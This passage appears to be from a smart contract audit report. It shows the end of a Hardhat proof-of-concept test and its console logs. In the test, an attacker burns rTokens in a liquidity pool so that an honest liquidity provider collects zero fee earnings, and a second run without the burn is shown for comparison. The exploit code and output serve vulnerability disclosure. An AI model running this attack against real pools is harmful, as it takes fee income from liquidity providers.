 ```js
    await callback.mint(pool.address, userB.address, -100, 100, ticksPrevious, PRECISION, '0x');

    // userC make swaps to incur fee
    console.log('[+] userC make swap');
    await callback.connect(userC)
      .swap(pool.address, userC.address, PRECISION.mul(1000), false, await getPriceFromTick(50), '0x');

    // userB collect rToken
    console.log('[+] userB collect earnings');
    await pool.connect(userB).tweakPosZeroLiq(-100, 100);
    console.log('[*] userB rToken balance: ', (await pool.balanceOf(userB.address)).toString());

    console.log('[*] pool balance: ', (await pool.balanceOf(pool.address)).toString());

    const totoSupplyAfter = await pool.totalSupply();
    console.log('[*] totoSupply after normal user behaviors', totoSupplyAfter.toString());

    console.log('[*] totoSupply change(should not be zero) ', totoSupplyAfter.sub(totoSupplyBefore).toString());
  });
});
```

Run with `yarn test test/PoC.spec.ts` will print the following logs. `userB` is a normal liquidity provider. He gets 0 rToken after userC's swap.

```text
  PoC
[+] attacker remove all liquidity
[*] attacker rToken balance:  375537297185960259306
[+] attacker burn rTokens
[*] attacker rToken balance after burn:  1000
[*] totoSupply before normal user behaviors 1101
[+] userC make swap
[+] userB collect earnings
[*] userB rToken balance:  0
[*] pool balance:  101
[*] totoSupply after normal user behaviors 1101
[*] totoSupply change(should not be zero)  0
```

To make a comparison with the normal behavior without attack. Comment the following line and run again. This time liquidity provider userB gets his derseved 24998119224 rTokens.

```js
await pool.connect(attacker).burnRTokens(attackerBalance.sub(1000), true);      // toggle comment to see the difference
```

```text
  PoC
[+] attacker remove all liquidity
[*] attacker rToken balance:  375537297185960259306
[+] attacker burn rTokens
[*] attacker rToken balance after burn:  375537297185960259306
[*] totoSupply before normal user behaviors 375537297185960259407
[+] userC make swap
[+] userB collect earnings
[*] userB rToken balance:  24998119224
[*] pool balance:  249981192241235891
[*] totoSupply after normal user behaviors 375787278403199614421
[*] totoSupply change(should not be zero)  249981217239355014
```
